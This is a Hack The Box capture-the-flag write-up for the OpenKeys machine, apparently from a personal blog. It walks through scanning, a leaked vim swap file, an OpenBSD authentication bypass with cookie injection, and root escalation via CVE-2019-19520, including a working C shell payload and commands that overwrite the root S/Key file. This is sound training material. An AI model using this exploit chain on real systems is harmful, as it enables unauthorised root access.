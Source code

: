 ```yaml
---
image: /assets/avatar/assets/openkeys.png
title: OpenKeys Writeup
author: Valerio Casalino
style: fill
color: danger
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/openkeys.png"> Writeup for OpenKeys (Hackthebox)
---
```


# OpenKeys

As always... `nmap` that thing:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.199 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -p $ports -sC -sV 10.10.10.199
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).
...
```

On port 80, we find a login page and no more info:

![image-20201105213128889](/assets/openkeys/image-20201105213128889.png)

So, we can use `gobuster`, or whatever alternative, to find some not indexed folder:

```bash
gobuster dir -w /usr/share/wordlists/discovery/directory-list-2.3-medium.txt -u http://10.10.10.199
```

![image-20201105213056896](/assets/openkeys/image-20201105213056896.png)

And we found `/includes`, which contains 2 files `auth.php` and `auth.php.swp`, which is a `vim` swap file, and, most importantly, readable! Since it is a binary file which showing the last changes made on a file, we can read them all with:

```bash
>>> vim -r auth.php.swp
...
$cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
...
$_SESSION["username"] = $_REQUEST['username'];
...
>>> strings auth.php.swp | head -n 2
b0VIM 8.1
jennifer
```

So, downloading that file, we can investigate on that:

```bash
file check_auth
...
check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped
...
```

It is a shared object for OpenBSD, and that means that it could be vulnerable to [an authentication bypass](https://securityaffairs.co/wordpress/94755/security/openbsd-security-flaws.html), and fortunately it is! The only thing to do it's to authenticate with `-schallenge:password` through `burp`:

![image-20201105220647715](/assets/openkeys/image-20201105220647715.png)

This means that the authentication worked! But we don't get any ssh key because no user is specified... The user name found in the `.swp` file was `jennifer`, so we can add `;username=jennifer` to the `PHPSESSID` to make `auth.php` parse it.

```
Cookie: PHPSESSID=...;username=jennifer
```

Copy the ssh key and access with user! Now, let's investigate on how to get `root`. Let's check the OpenBSD version:

```bash
uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

On the openBSD website, there is a [list of vulnerabilities](https://www.openbsd.org/errata66.html) for this version, and the [CVE-2019-19520](https://nvd.nist.gov/vuln/detail/CVE-2019-19520) worked as intended! We need to compile this file on the victim machine:

```c
// swrast_dri.c
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>
static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
```

This will change the `RUID`, `EUID` and `GUID` to 0, so `root`, when called. After we compile the file:

```bash
cc -fpic -shared -s -o swrast_dri.so swrast_dri.c && rm -rf swrast_dri.c
```

We need to set the `LIBGL_DRIVERS_PATH=.` to make `xlock` use our `swarst_dri.so`, instead of the real one. To do so, we just need to run these simple commands:

```bash
env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
echo id -gn | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display $display 
# Your password is: EGG LARD GROW HOG DRAG LAIN
echo "rm -rf /etc/skey/root ; echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root ; chmod 0600 /etc/skey/root" | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66 
env -i TERM=vt220 su -l -a skey
```

![image-20201106002129492](/assets/openkeys/image-20201106002129492.png)

..profit!
